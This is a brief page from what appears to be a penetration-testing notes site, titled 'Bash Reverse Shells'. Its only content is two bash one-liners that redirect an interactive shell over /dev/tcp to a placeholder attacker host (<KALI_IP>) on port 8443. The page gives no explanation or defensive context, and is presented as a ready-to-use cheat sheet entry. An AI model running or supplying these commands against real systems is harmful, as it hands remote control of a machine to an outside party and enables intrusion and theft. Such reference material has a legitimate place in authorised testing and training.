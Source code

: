 ```yaml
---
title: Bash Reverse Shells
layout: default
nav_order: 2
parent: Reverse Shells

---
```


# Bash Reverse Shell
{: .no_toc }
## Table of Contents
{: .no_toc .text-delta }
1. TOC
{:toc}

### Bash reverse shell
```bash
bash -i >& /dev/tcp/<KALI_IP>/8443 0>&1
```

```bash
/bin/bash -l > /dev/tcp/<KALI_IP>/8443 0<&1 2>&1
```

